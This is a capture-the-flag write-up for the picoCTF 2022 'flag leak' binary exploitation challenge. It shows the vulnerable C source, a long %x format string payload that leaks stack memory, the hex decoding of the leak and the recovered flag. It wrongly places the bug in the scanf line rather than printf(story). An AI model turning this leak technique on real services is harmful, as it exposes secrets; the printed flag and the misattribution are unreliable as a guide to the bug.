

# picoCTF 2022 flag leak (Binary Exploitation 300 points)
The challenge is the following,

 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6.  #include <wchar.h>
7.  #include <locale.h>
8. 
9.  #define BUFSIZE 64
10. #define FLAGSIZE 64
11. 
12. void readflag(char* buf, size_t len) {
13.   FILE *f = fopen("flag.txt","r");
14.   if (f == NULL) {
15.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
16.                     "own debugging flag.\n");
17.     exit(0);
18.   }
19. 
20.   fgets(buf,len,f); // size bound read
21. }
22. 
23. void vuln(){
24.    char flag[BUFSIZE];
25.    char story[128];
26. 
27.    readflag(flag, FLAGSIZE);
28. 
29.    printf("Tell me a story and then I'll tell you one >> ");
30.    scanf("%127s", story);
31.    printf("Here's a story - \n");
32.    printf(story);
33.    printf("\n");
34. }
35. 
36. int main(int argc, char **argv){
37. 
38.   setvbuf(stdout, NULL, _IONBF, 0);
39.   
40.   // Set the gid to the effective gid
41.   // this prevents /bin/sh from dropping the privileges
42.   gid_t gid = getegid();
43.   setresgid(gid, gid, gid);
44.   vuln();
45.   return 0;
46. }
47. 
```

This problem is similar to a [picoGYM challenge I did some time ago](https://www.youtube.com/watch?v=0NjQ7qUIuTs). I saw that line 30 `scanf("%127s", story)` has a format string vulnerability, where the memory can be leaked with `%x`. So I went ahead and connected to the remote server and inputted `%x`,

 

Which gave me `ffee0140`, so I tried more,

 

And I tried even more,

```
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```


 


Which gave me,
```
fff2a990fff2a9b08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f625f6b63653034387d393738fbad2000556b29000f7f4a990804c00080494100804c000fff2aa7880494182fff2ab24fff2ab300fff2aa9000f7d40ee5
```
I saw that the following section might be ASCII,

`6f6369707b4654436b34334c5f676e3167346c466666305f3474535f625f6b63653034387d393738`

So I entered spaces between them,

`6f 63 69 70 7b 46 54 43 6b 34 33 4c 5f 67 6e 31 67 34 6c 46 66 66 30 5f 34 74 53 5f 62 5f 6b 63 65 30 34 38 7d 39 37 38`

And I went to CyberChef to convert it from hex,

 

This looked like the flag, but was scrambled up. So I assumed that I had to swap the endianness,

 

Therefore, the flag is,

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_b840e879}`
